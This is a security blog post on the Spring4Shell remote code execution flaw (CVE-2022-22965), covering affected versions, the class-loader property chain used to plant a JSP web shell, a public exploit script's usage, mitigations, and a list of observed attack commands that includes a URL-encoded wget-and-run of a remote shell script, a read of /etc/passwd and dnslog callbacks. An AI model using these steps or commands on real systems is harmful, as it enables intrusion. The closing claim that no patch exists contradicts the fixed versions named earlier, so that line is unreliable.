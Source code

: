 ```yaml
---
title: "Spring4shell: A Critical Vulnerability in the Spring Java Framework"
date: 2022-03-30 11:33:00 +0800
categories: [Vulnerabilities, 0day]
tags: [spring4shell, 0day, vulnerability, critical, spring, java, framework]
author: adil_soybali
---
```


## Executive Summary

On March 29th, 2022, a Chinese Twitter account published a PoC of 0-Day vulnerability Spring4Shell or another name SpringShell in the famous java framework Spring. A CVE was added on March 31st, 2022 by the Spring developers as [CVE-2022-22965](https://nvd.nist.gov/vuln/detail/cve-2022-22965). Spring MVC or Spring WebFlux application running on JDK 9+ may be vulnerable to remote code execution (RCE) via data binding. Exploit requires the application to run on Tomcat as a WAR deployment. If the application is deployed as a Spring Boot executable jar, i.e. the default, it is not vulnerable to the exploit. That vulnerability is fixed in 2.6.6; see [the Spring blog for details](https://spring.io/blog/2022/03/31/spring-boot-2-6-6-available-now).

## **Affected Software and Versions**

These are the requirements for the exploitation:

- Running on JDK 9 or higher
- [Packaged as a traditional WAR](https://docs.spring.io/spring-boot/docs/2.5.x/reference/htmlsingle/#howto.traditional-deployment) and deployed on a standalone Servlet container. Typical Spring Boot deployments using [an embedded Servlet container](https://docs.spring.io/spring-boot/docs/2.5.x/reference/htmlsingle/#features.developing-web-applications.embedded-container) or [reactive web server](https://docs.spring.io/spring-boot/docs/2.5.x/reference/htmlsingle/#features.developing-web-applications.reactive-server) are not impacted.
- `spring-webmvc` or `spring-webflux` dependency.
- Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions.

If your application existing these requirements, it may be vulnerable. Please look at mitigation suggestions and apply immediately.

## Impact of Spring4Shell

NVD (National Vulnerability Database) gave a CVSS v3.1 score of 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H) to Spring4Shell due to the criticality that the exploit does not need any authentication or authorization. Spring4Shell allows attackers to get remote code execution in the context of the user that is running the vulnerable application.

## Spring4shell Technical Details

The "getCachedIntrospectionResults" method of the Spring framework causes this vulnerability, because of wrongly exposing the class object.

Vulnerable Code Snippet:

```jsx
public class Greeting {
		private long id;
		private String content;
		public long getId() {
	 			return id;
		}
		public String getContent() { 
			return content;
		}
}
```

And controller's code:

```jsx
@PostMapping("/test")
	 public String greetingSubmit(@ModelAttribute Greeting greeting, Model model) {
	 return "hello";
	 }
```

The vulnerability in Spring4Shell is caused by the "getCachedIntrospectionResults" method of the Spring framework, which wrongly exposes the class object. This class object has a reference to the POJO (Plain Old Java Object) where all HTTP parameters are mapped. If the application is running on Apache Tomcat, an attacker can exploit this vulnerability by using the class variable "class.module.classLoader.resources.context.parent.pipeline.firstpath" to control an AccessLogValve object and manipulate its properties to write a web shell at the web root, thereby obtaining remote command execution.

## Spring4Shell Exploitation

Exploitation is similar to [CVE-2010-1622](http://blog.o0o.nu/2010/06/cve-2010-1622.html). 

The properties are as follows:

1. **`class.module.classLoader.resources.context.parent.pipeline.first.pattern`** - This property determines the content of the log file, and it is where you would want to insert your web shell code.
2. **`class.module.classLoader.resources.context.parent.pipeline.first.prefix`** - This property refers to the name of the log file, and it is where you would name your web shell file.
3. **`class.module.classLoader.resources.context.parent.pipeline.first.suffix`** - This property indicates the extension of the log file, which must be set to .jsp.
4. **`class.module.classLoader.resources.context.parent.pipeline.first.directory`** - This property specifies the location of the log file. If the root directory is remotely accessible, you can use webapps/ROOT as the value for the directory property, allowing you to interact with your web shell by accessing /.jsp
5. **`class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat`** - This property is optional and it helps with a quality of life improvement for the attacker as it removes cumbersome logging timestamps from the output if the property is left blank.

There is a python script for exploitation: [https://github.com/reznok/Spring4Shell-POC/blob/master/exploit.py](https://github.com/reznok/Spring4Shell-POC/blob/master/exploit.py)

Using: python3 exploit.py --url http://TARGET.com

![Untitled](/assets/Spring4Shell-Blog-Post762549c580314e2b8b652b51bbf4874a/Untitled.png)

![Untitled](/assets/Spring4Shell-Blog-Post762549c580314e2b8b652b51bbf4874a/Untitled1.png)

## Statistics About Spring4Shell

According to the 360 netlab’s report, these are information about threat actors and exploitation of Spring4Shell:

![Untitled](/assets/Spring4Shell-Blog-Post762549c580314e2b8b652b51bbf4874a/Untitled2.png)

Top 10 country statistics:

```
United States      92
The Netherlands    49
Germany            30
China              21
France              6
Luxembourg          6
Sweden              6
Switzerland         5
Ukraine             5
Austria             4
```

Webshell and test file upload statistics:

![Untitled](/assets/Spring4Shell-Blog-Post762549c580314e2b8b652b51bbf4874a/Untitled3.png)

Some of used exploit commands so far:

```jsx
echo%20ddfdsfasdfasd
echo%20fdsafasdfasd
echo%202222222
ls
ls%20/tmp/
whoami
%2Fbin%2Fsh%2F-c%24%7BIFS%7D%27cd%24%7BIFS%7D%2Ftmp%3Bwget%24%7BIFS%7Dhttp%3A%2F%2F107.174.133.167%2Ft.sh%24%7BIFS%7D-O-%A6sh%24%7BIFS%7DSpringCore%3B%27 
cat+/etc/passwd 
chdir 
cmd /c dir 
cmd /c net user 
curl+http://111.4vcrkb.dnslog.cn/1.jpg 
curl+http://12121.4vcrkb.dnslog.cn/1.jpg 
curl+http://35456.4vcrkb.dnslog.cn/1.jpg 
dir 
echo 
echo 8888888888  
echo %USERNAME%  
echo %computername% 
echo </xss> 
echo fucker_test_test 
echo rinima  
echo%20%3Csvg%20onload=confirm`xss`%3E 
echo%20%3Csvg%20onload=confirm`xsssssss`%3E 
echo%20ddfdsfasdfasd 
echo%20fdsafasdfasd 
echo%202222222 
echo+22222 
echo+`whoami` 
echo+whoami 
exp
id 
ifconfig 
ls 
ls%20/tmp/ 
ping -n 2 uup0fk.dnslog.cn 
ping uup0fk.dnslog.cn 
uname 
whoami 
whoami%0A
```

## Mitigation suggestions

The preferred solution is to update Spring Framework to **5.3.18** and **5.2.20** or greater. If the application is not able to upgrade Spring Framework, then upgrade Tomcat to **10.0.20**, **9.0.62**, or **8.5.78.** Another solution is downgrading Java to version 8. Also there is a patch too:

[https://github.com/spring-projects/spring-framework/commit/afbff391d8299034cd98af968981504b6ca7b38c](https://github.com/spring-projects/spring-framework/commit/afbff391d8299034cd98af968981504b6ca7b38c)

There is a Yara rule for detecting exploits for Spring4Shell: [https://github.com/Neo23x0/signature-base/blob/master/yara/expl_spring4shell.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/expl_spring4shell.yar)

## Conclusion

Spring4Shell was announced with the PoC published on a Chinese Twitter account on March 29, 2022. Unfortunately, an official patch has not been released yet. Therefore, it was actively used by attackers. It wasn't as exploitable as log4j as it required some requirements for exploitation but still a very critical vulnerability.
